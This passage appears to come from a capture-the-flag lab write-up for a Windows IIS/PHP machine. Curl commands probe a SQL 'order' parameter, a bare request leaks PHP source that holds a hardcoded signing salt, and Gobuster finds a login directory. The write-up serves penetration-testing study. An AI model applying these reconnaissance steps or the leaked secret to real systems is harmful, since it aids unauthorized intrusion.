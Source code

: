 in this url `/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b` looks like `order` parameter conatins sql keyword `desc` in sql that means descending order and if try to change it to ascending `aes`, server return security error.
```bash
❯ curl -i -s 'http://10.10.10.231/products-ajax.php?order=id+aes&h=a1b30d31d344a5a4e41e8496ccbdd26b'
HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.4.1
Date: Sat, 21 Aug 2021 08:20:17 GMT
Content-Length: 39

Forbidden - Tampering attempt detected.
```

If remove all parameter and only request `/products-ajax.php`, return snippet of source code in error
```bash❯ curl -s 'http://10.10.10.231/products-ajax.php'
<!-- [8] Undefined index: order
On line 6 in file C:\inetpub\wwwroot\products-ajax.php
  1 |   // SECURE_PARAM_SALT needs to be defined prior including functions.php 
  2 |   define('SECURE_PARAM_SALT','hie0shah6ooNoim'); 
  3 |   include('functions.php'); 
  4 |   include('db-config.php'); 
  5 |   if ( !$_GET['order'] || !$_GET['h'] ) {                <<<<< Error encountered in this line.
  6 |     // Set the response code to 500 
  7 |     http_response_code(500); 
  8 |     // and die(). Someone fiddled with the parameters. 
  9 |     die('Parameter missing or malformed.'); 
 10 |   } 
 11 |  
// -->
Parameter missing or malformed.
```

**Gobuster** running in backgroup found a directory
```bash
/licenses             (Status: 301) [Size: 152] [--> http://10.10.10.231/licenses/]
```

Contains a login page
